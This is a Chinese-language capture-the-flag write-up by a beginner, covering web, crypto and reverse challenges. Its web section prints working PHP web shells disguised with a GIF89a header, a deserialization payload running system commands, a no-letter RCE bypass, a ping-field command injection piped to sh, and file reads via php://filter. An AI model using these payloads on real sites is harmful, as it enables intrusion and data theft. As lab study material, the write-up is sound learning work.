



# Web
# ezupload
一道简单的 mine 绕过，上传一句话木马，用 burpsuit 抓包后，修改文件头为：
Content-Type: application/gif
成功上传后访问文件用蚁剑连接即可。
一句话木马：
GIF89a | |
<?php eval($_POST['cmd']);?> |
# php very nice
题目：
<?php | |
highlight_file(__FILE__); | |
class Example | |
{ | |
public $sys='Can you find the leak?'; | |
function __destruct(){ | |
eval($this->sys); | |
} | |
} | |
unserialize($_GET['a']); | |
?> |
反序列化后会调用__destruct () 函数。
直接上代码：
<?php | |
class Example | |
{ | |
public $sys='system("cat f*");'; | |
} | |
$a=new Example(); | |
echo serialize($a); |
这里是已经执行过 system ("ls"); 知道 flag 文件在当前目录下了。
payload:
?a=O:7:"Example":1:{s:3:"sys";s:17:"system("cat f*");";} |
检查网页源代码即可看到 flag。
# wu
题目：
<?php | |
highlight_file(__FILE__); | |
$a = $_GET['a']; | |
if(preg_match("/[A-Za-z0-9]+/",$a)){ | |
die("no!"); | |
} | |
@eval($a); | |
?> |
无字母 rce，取反绕过即可：
<?php | |
$a = "system"; | |
//$b = "ls"; | |
$b = "cat zheshiflag.php"; | |
echo urlencode(~$a); | |
echo "\n"; | |
echo urlencode(~$b); |
还有异或和自增方法，这里没有尝试。
# 再来 ping 一波啊
;l\s 得到回显 index.php。
输入 cat 得到回显：
常用的读取命令肯定不行，你要是想出绕过的也算你厉害。但过滤机制是改了的 -。-，你再研究研究？
寻常的绕过方式估计是不行了，经过尝试可以用 base64 绕过，空格可以用 %09 和 $IFS$1 绕过，bash 被过滤了但 sh 没有被过滤。
payload:
/?ip=;echo$IFSIFS$1-d|sh
检查网页源码即可。
# 代码审计 1
题目：
<?php | |
highlight_file(__FILE__); | |
include('flag.php'); | |
$sys = $_GET['sys']; | |
if (preg_match("|flag|", $xsx)) { | |
die("flag is no here!"); | |
} else { | |
$xsx = $_GET['xsx']; | |
echo new $sys($xsx); | |
} |
看到 echo new xsx); 就可以知道此题需要利用 php 中的原生类。
原生类具体参考以下文章：
使用
?sys=DirectoryIterator&xsx=glob://f* |
读取文件名
得到回显：flag.php
payload:
?sys=SplFileObject&xsx=php://filter/convert.base64-encode/resource=flag.php |
base64 解码即可。
# 自由的文件上传系统
上传一句话木马：
GIF89a | |
<?php eval($_POST['cmd']);?> |
得到回显：
文件绝对路径: /var/www/html/upload/3385082283
继续：
/sectet_include.php?file=var/www/html/upload/3385082283
尝试输入命令发现没用，检查网页源码后发现变成这样：
GIF89a | |
<!php eval($_POST['cmd']);!> |
可以看到 '?' 变成了 '!'。
注意到 php 版本 5.5.9，使用这个一句话木马绕过；
GIF89a? | |
<script language="php">@eval($_POST['cmd']); |
重复上述操作后，使用蚁剑连接即可。
# Crypto
# 天干地支
解压压缩包后得到：
小李某一天收到一条微信，微信中写了几个不同的年份
丁丑 丙子 戊辰 壬午 丁丑 丙子 戊辰 壬午 壬辰 壬辰 辛未 丙戌
微信的后面还写有 “+ 甲子”，请解出这段密文。
flag 格式：flag
照着这张表列出数字：

14 13 5 19 14 13 5 19 29 29 8 23
由于还需要 “+ 甲子”, 所以再加上 60
74 73 65 79 74 73 65 79 89 89 68 83
转码即可：
JIAOJIAOYYDS
flag
# Reverse
# ？64
直接运行 64.exe 即可：
Base64 解码后，MD5 加密即是 flag。
# Sign Up
运行该脚本即可：
keyuser = ['1','9','2','1','6','8','1','0','9'] | |
keypass = ['r','o','o','t'] | |
a = "" | |
b = '' | |
for i in range(0,7): | |
uu = chr(ord(keyuser[i]) - 1) | |
a+=uu | |
for j in range(0,4): | |
b+= chr(ord(keypass[j])-2) | |
print(a+b) |
得到 0810570pmmr，不过得注意加上 09，md5 加密 081057009pmmr
即为 flag。
# Java_Tools

HelloWorld! Md5 加密即可.
# 总结
这次比赛对于我这个刚接触安全的小白收获还是蛮大的，web题目除了那道java反序列化不会，其他在我的软磨硬泡下都弄出来了，还是有点成就感的，最后也是混了个二等奖，嘻嘻~(\*/ω＼\*)。
